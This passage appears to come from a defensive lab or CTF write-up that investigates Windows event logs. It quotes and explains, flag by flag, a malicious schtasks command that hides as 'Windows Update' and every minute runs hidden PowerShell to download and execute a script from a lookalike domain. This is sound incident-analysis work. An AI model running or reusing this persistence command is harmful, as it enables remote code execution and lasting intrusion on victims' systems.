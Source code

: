
**Note: We have used the `winlog.event_id` field as a column since the query result might give events with different event IDs.**

![](/assets/img/Pasted image 20240502050140.png)

<u>Takeaways</u>:
```c
- It can be observed that some of the `scheduled tasks` (`OneDrive Reporting/Standalone Task`) seem to be benign. 

- On a quick look, the unusual task created is named "`Windows Update`" and executes a PowerShell command scheduled every minute. 

- Tracing back the previous investigations, 'www[.]oneedirve[.]xyz' was already identified as ***`suspicious`***, confirming the suspicion on this newly-created scheduled task.
```


<u>First Command</u>:
```c
"C:\Windows\system32\cmd.exe" /c schtasks /CREATE /TN "Windows Update" /TR "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://www.oneedirve.xyz/321c3cf/INSTALL.txt'''))'" /SC minute /MO 1
```

<u>Breakdown</u>:
```c
1. `"C:\Windows\system32\cmd.exe"`: This is the path to the `cmd.exe` executable, which is the Windows Command Prompt.

2. '`/c`': This option tells `cmd.exe` to execute the command that follows it and then terminate.

3. '`schtasks /CREATE`': This is the command to create a new scheduled task using the Windows Task Scheduler.

4. `/TN "Windows Update"`: This specifies the name of the scheduled task, which is set to "Windows Update".

5. `/TR "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://www.oneedirve.xyz/321c3cf/INSTALL.txt'''))'"`: This specifies the action to be taken by the scheduled task. It invokes PowerShell (`powershell.exe`) with specific options and a command to execute. The command downloads and executes a script from a remote URL (`http://www.oneedirve.xyz/321c3cf/INSTALL.txt`) using `IEX` (Invoke-Expression), which is a common technique used in malicious scripts to execute code retrieved from the internet.

6. '`/SC minute`': This specifies the frequency of the task, which is set to run every minute.

7. '`/MO 1`': This specifies the modifier for the frequency, indicating that the task should run every 1 minute.

In summary, this command creates a scheduled task named "Windows Update" that runs PowerShell every minute. The PowerShell command downloads and executes a script from a remote URL. This command structure is often used in malicious activities to establish persistence and download additional payloads from the internet.



-----------------> Powershell command breakdown: <-----------------

1. `c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe`: This is the path to the PowerShell executable (`powershell.exe`). It specifies the location of the 32-bit version of PowerShell (`syswow64` is the directory for 32-bit system files on 64-bit Windows).

```